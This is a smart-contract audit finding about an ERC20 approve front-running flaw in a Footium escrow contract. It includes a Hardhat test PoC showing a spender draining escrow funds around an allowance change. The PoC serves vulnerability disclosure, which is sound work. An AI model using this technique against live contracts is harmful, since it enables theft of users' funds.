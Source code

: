 PokemonAuditSimulator

medium

# The escrow “setApprovalForERC20” function is vulnerable to a sandwich attack

## Summary

The **`approve()`** function in ERC20 can cause token theft when a user re-invokes it for a previously authorized spender, as the spender can front-run the transaction and transfer the previous value using **`transferFrom()`** before authorization to transfer the new value is granted.

## Vulnerability Detail

The FootiumEscrow contract's **`setApprovalForERC20()`** function is susceptible to the well-known "approve front-running" attack. In this scenario, if a malicious user or protocol gains an ERC20 allowance, they can take advantage of it by front-running the next approval transaction related to them, allowing them to spend more than intended and essentially steal funds from the club's escrow. This document offers a comprehensive explanation of the matter at hand: https://docs.google.com/document/d/1YLPtQxZu1UAvO9cZ1O2RPXBbT0mooh4DYKjA_jp-RLM/edit

## Impact

Resulting in the loss of funds for the owner of the escrow.

## Code Snippet

The code section in question is: **[[FootiumEscrow.sol/L75-L81]](https://github.com/sherlock-audit/2023-04-footium/blob/main/footium-eth-shareable/contracts/FootiumEscrow.sol#L75-L81)**

Here is a Hardhat proof of concept (PoC) that documents the problem:

```jsx
// Place it in the FootiumClubMinter.test.ts file.
it("Sandwiching approvals", async () => {
        // Set up variables and contracts
        const tokenID1 = 1;
        let user1,user2,token;
        [,,user1,user2] = await ethers.getSigners();
        token = await deployProxy("FootiumToken");

        // Mint a club token for User1
        await expect(clubMinter.mint(user1.address, tokenID1))
        .to.emit(clubs, "Transfer")
        .withArgs(ZERO_ADDRESS, user1.address, tokenID1);

        // Retrieve the FootiumEscrow contract associated with the club token
        const escrowAddress = await clubs.clubToEscrow(tokenID1);
        const escrow = await ethers.getContractAt("FootiumEscrow",escrowAddress);;

        // Mint some FootiumTokens and transfer them to the escrow for later use
        await token.mint(escrow.address,"100");

        // User1 approves User2 to spend 80 FootiumTokens from the escrow
        await escrow.connect(user1).setApprovalForERC20(token.address,user2.address,"80")
        
				// After some time, User2 has not spent any tokens and User1 wants to decrease the allowance to 20 FootiumTokens

        // However, User2 exploits the approval front-running vulnerability and transfers the full 80 tokens to themselves
        await token.connect(user2).transferFrom(escrow.address,user2.address,"80")

        // User1 lowers the allowance to 20 FootiumTokens, unaware that User2 has already taken the full allowance
        await escrow.connect(user1).setApprovalForERC20(token.address,user2.address,"20")

        // User2 takes advantage of the allowance again and spends the remaining 20 FootiumTokens
        await token.connect(user2).transferFrom(escrow.address,user2.address,"20")
        
        const bal = await token.balanceOf(escrow.address);
        
        // Confirm that the escrow balance for User1 is now 0 FootiumTokens
        expect(bal).to.be.eq("0");
    });
```

## Tool used

Manual Review, Hardhat

## Recommendation

We recommend implementing the solution outlined in the referenced document to address this vulnerability.